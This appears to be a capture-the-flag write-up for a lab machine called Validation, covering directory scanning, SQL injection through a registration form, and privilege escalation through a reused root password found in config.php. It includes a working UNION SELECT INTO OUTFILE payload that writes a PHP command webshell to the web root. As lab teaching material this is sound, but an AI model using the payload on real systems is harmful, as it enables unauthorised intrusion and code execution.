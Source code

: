 # Validation

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (3218).png" alt=""><figcaption></figcaption></figure>

### SQL Injection for RCE

The website contains a simple register function that takes user input.

<figure><img src="../../../.gitbook/assets/image (2891).png" alt=""><figcaption></figcaption></figure>

When proxying the traffic, the POST request is submitted like so:

```http
username='&country=Afganistan
```

When viewing our request, this is what we would see:

<figure><img src="../../../.gitbook/assets/image (3203).png" alt=""><figcaption></figcaption></figure>

A quick directory scan reveals there is an `account.php` endpoint on the machine.&#x20;

```
$ feroxbuster -u http://10.10.11.116 -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.116
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      309c http://10.10.11.116/js
200        0l        0w        0c http://10.10.11.116/config.php
301        9l       28w      310c http://10.10.11.116/css
200        1l        2w       16c http://10.10.11.116/account.php
200      268l      747w        0c http://10.10.11.116/index.php
403        9l       28w      277c http://10.10.11.116/server-status
```

The `config.php` endpoint presented an empty screen, which I think we have to look into after gaining a shell. Anyways, the `account.php` file displayed an SQL error when trying to view the player I registered.

<figure><img src="../../../.gitbook/assets/image (789).png" alt=""><figcaption></figcaption></figure>

Instead of enumerating the database, I directly wrote a webshell into the page.

{% code overflow="wrap" %}
```http
username=a&Afganistan' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/cmd.php';#
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1158).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell and enumerate the `config.php` file we saw earlier.

## Privilege Escalation

Within the config file, there was a password, which happened to be the root password.

<figure><img src="../../../.gitbook/assets/image (3591).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3046).png" alt=""><figcaption></figcaption></figure>
